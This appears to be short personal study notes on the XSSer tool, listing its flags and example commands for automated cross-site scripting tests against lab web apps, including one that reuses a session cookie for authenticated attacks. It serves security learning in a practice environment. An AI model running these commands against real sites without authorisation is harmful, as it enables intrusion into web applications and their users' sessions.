

# XSSer

- --url <url> : for get requests, pass XSS where payload required 
- -p <paload>: eg. -p "target_host=XSS"
- intercept traffic sent to webpage with burpsuite
	- `xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'`
- --auto : try automatic payloads
	- `xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto`
- --Fp ""
	- `xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp ""`
- --cookie <cookie> : for authenticated xss attack
	- `xsser --url “http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit” --cookie=”PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0” --Fp “”`

# Screenshots

